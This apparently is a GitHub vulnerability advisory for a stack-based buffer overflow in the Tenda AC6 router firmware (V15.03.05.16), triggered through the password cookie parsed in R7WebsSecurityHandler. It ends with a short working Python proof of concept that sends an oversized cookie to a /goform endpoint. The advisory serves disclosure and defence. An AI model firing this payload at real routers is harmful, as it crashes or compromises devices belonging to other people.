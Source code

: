 # Tenda-Vul
Product:
Tenda AC6

Version:
V15.03.05.16
https://www.tenda.com.cn/material/show/102661

Problem Type:
Stack overflow

Description:
A vulnerability classified as critical has been found in Tenda AC6 15.03.05.16. Affected is the function R7WebsSecurityHandler of the file /goform/xxx. The manipulation of the argument password leads to stack-based buffer overflow. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. Other parameters might be affected as well.

Detial:
At the function of R7WebsSecurityHandler line 94：sscanf(v44, "%*[^=]=%[^;];*", v34).This function does not validate the user input.Copy user input directly into the stack.

POC:
import requests
URL = "http://192.168.2.3:80/goform/helloworld"
cookie = {"Cookie":"password="+"a"*0x400+".pngAAA"}
requests.get(url=URL, cookies=cookie)
![image](https://github.com/user-attachments/assets/6633936a-a48d-4092-bb4d-26a2281e47e0)
![image](https://github.com/user-attachments/assets/c1a89751-2276-4f9b-be2a-1fba6a3be880)
![image](https://github.com/user-attachments/assets/0328f247-0fb4-4dfd-842f-e4087b3c45d3)

